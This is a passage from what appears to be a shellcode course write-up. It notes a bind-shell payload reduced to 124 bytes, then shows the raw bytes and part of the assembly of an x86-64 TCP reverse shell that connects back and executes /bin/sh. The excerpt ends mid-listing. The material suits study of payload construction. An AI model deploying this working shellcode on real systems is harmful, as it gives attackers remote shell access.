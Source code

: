 ```shell
tcpbindshell-original.o
tcpbindshell.nasm
tcpbindshell.o
exit
geobour98@slae64-dev:~$
```

The shellcode is working, its size is `124` bytes and has been decreased by `26` bytes!

## tcpreverseshell {#tcpreverseshell}

The original `tcpreverseshell` shellcode is the following:

```shell
\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24\x02\x7a\x69\xc7\x44\x24\x04\x7f\x01\x01\x01\x48\x89\xe6\x6a\x10\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05
``` 

The initial `Assembly` version (`tcpreverseshell-original.nasm`) is the following:

```nasm
global _start
section .text

_start:

	xor rax, rax
	xor rdi, rdi
	xor rsi, rsi
	xor rdx, rdx
	xor r8, r8

	push 0x2
	pop rdi

	push 0x1
	pop rsi
	
	push 0x6
	pop rdx

	push 0x29
	pop rax

	syscall

	mov r8, rax
	
	xor rsi, rsi
	xor r10, r10

	push r10
	
	mov byte [rsp], 0x2

	mov word [rsp + 0x2], 0x697a

	mov dword [rsp + 0x4], 0x0101017f

	mov rsi, rsp

	push 0x10
```